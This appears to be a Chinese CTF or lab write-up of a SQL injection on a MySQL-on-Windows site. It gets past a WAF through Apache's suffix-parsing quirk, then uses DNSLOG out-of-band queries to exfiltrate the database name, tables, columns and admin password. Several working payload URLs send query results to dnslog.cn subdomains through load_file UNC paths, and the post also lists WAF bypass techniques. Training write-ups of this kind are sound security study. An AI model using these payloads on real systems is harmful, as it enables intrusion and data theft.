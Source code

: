 ```yaml
---
layout: post
title: SQL注入 - DNSLOG注入 与 WAF绕过
categories: [SQL注入]
description: SQL注入 - DNSLOG注入 与 WAF绕过
keywords: SQL注入
---
```


# SQL注入 - DNSLOG注入 与 WAF绕过

> https://hack.zkaq.cn/battle/target?id=9b8ee696eb01591e

## 0x00 

1. 为什么经常说 **完全和运维工作要左移（参考 CI/CD 流程）** ？ 不管说什么， 商业的本质是赚钱， 阻挡赚钱的一切都是异端。
2. 在任何时候 **信息收集** 都很重要。 分析的对象是 **信息** ， 被利用对象的本质是 **疏漏** 。 **`信息分析可以找出这些疏漏`**

**文件解析漏洞**: 任意文件被指定解释器调用。
    1. 指定执行: `php xxx.php`
    2. 默认执行规则: apache`.htaccess`

**WAF绕过**: WAF 的作用是保护业务，而非阻断业务。 因此在设置 WAF 规则的时候， 一定会有各种业务因素导致 WAF 规则盲区。 使用各种方式， 绕过既定 WAF 规则。
    1. 特殊字段出现常用注入字符。
    2. WAF 影响性能
    3. 业务烂但是必须上线。


**mysql on windows** 由于 windows 环境触发的特定利用方式。
    1. UNC / dnslog

## mysql 注入 - dns 注入

### 常规测试

```
http://59.63.200.79:8014/index3.php?id=1%20and%201=2
```

遇到了 WAF。 

![](https://nc0.cdn.zkaq.cn/md/8461/ea837aec83ec521ce8d7f10fd9160328_94867.png)


### 环境分析

打开 **开发者工具** ， 刷新页面，查看服务器返回 `response headers` 头信息

可以看到， windows ， apache


![](https://nc0.cdn.zkaq.cn/md/8461/216cb20d8e79f794226e061add4aa42f_76985.png)



### WAF 绕过 与 apache 文件解析漏洞

**apache 文件解析漏洞**

1. apache 有一个功能特性，将文件名后缀左右向左解析。 
	1. 如果最右侧的后缀不识别，则向左移位。 例如， `index.php.qwe` 。 先识别 `.qwe` 不认识； 再识别 `.php` ， OK。
	2. 如果查找最右侧的文件不存在， 则向左移位。 例如 `1.example.com/index.php/.txt` 。 `.txt` 文件不存在;  再找 `index.php` , ok

**WAF 绕过**

1. 规则绕过， 分析规则， 使用加盐或编码方式等绕过。
	1. 编码： url， hex， base64
	2. 注释：例如mysql `/* xxx */`
	3. 长字符： 11111111111111111=11111111111111111
	4. ...
2. 白名单文件绕过。 即使用平常大家都认为人畜无害的文件类型绕过。
	1. txt

**waf+apache 组合拳**

```
http://59.63.200.79:8014/index3.php/.txt?id=1 and 1=2
```

![](https://nc0.cdn.zkaq.cn/md/8461/f2ea16d795f9912a1e4d53003a7e158e_56825.png)


**mysql on windows**

由于windows 的 UNC 路径特性， 似的 myql on windows 可以使用  dnslog 注入。

### dnslog 测试

```
http://59.63.200.79:8014/index3.php/.txt?id=1%20and%20load_file(%27//1.dl9ewg.dnslog.cn/1.sql%27)
```

![](https://nc0.cdn.zkaq.cn/md/8461/4d189260c08844589dcecae3d55c30b6_14255.png)


通过dnslog 解析记录， 发现， dnslog oob 带外是可以用的。


### flag 查找

```sql

-- sql
-- 1. 查看当前库名
database()


-- 2. 查看当前库的所有表明
select group_concat(table_name) from information_schema.tables

-- 3. 查看指定库、表数据量
select count(*) from <table_name>

-- 4. 查询数据信息


load_file( concat('//', $SQL, '.0cu3h3.dnslog.cn/1.txt') )

```

```bash
## 库名是什么
http://59.63.200.79:8014/index3.php/.txt?id=1 and load_file( concat('//', database(), '.tt.wkhnuu.dnslog.cn/1.txt') )
# result:  mangzhu 

## 多少张表
http://59.63.200.79:8014/index3.php/.txt?id=1 and load_file( concat('//',(select count(table_name) from information_schema.tables WHERE table_schema=database() ), '.tcount.wkhnuu.dnslog.cn/1.txt') )
# result: 2

## 表明是什么
http://59.63.200.79:8014/index3.php/.txt?id=1 and load_file( concat('//',(select table_name from information_schema.tables WHERE table_schema=database() limit 1,1), '.tname.wkhnuu.dnslog.cn/1.txt') )

# result: admin,news

## 查询列
http://59.63.200.79:8014/index3.php/.txt?id=1 and load_file( concat('//',(select hex(group_concat(column_name)) from information_schema.columns WHERE table_schema=database() and table_name='admin' ), '.cls.wkhnuu.dnslog.cn/1.txt') )

# result: 49642c757365726e616d652c70617373776f7264 
## Id,username,password

## 查询字段
http://59.63.200.79:8014/index3.php/.txt?id=1 and load_file( concat('//',( select hex(group_concat(password)) from admin ), '.val.wkhnuu.dnslog.cn/1.txt') )

# result: 31666C616731676F6F6431
## 1flag1good1
```

![](https://nc0.cdn.zkaq.cn/md/8461/7ca4123b1be6e9bb8be053bec6008ce2_96761.png)

**flag: 1flag1good1**

# 0xGG 参考文章

+ [浅谈解析漏洞的利用与防范](https://www.anquanke.com/post/id/219107)
+ [文件解析漏洞总结-Apache](https://blog.csdn.net/wn314/article/details/77074477)
+ [WAF机制及绕过方法总结：注入篇](https://www.freebuf.com/articles/web/229982.html)

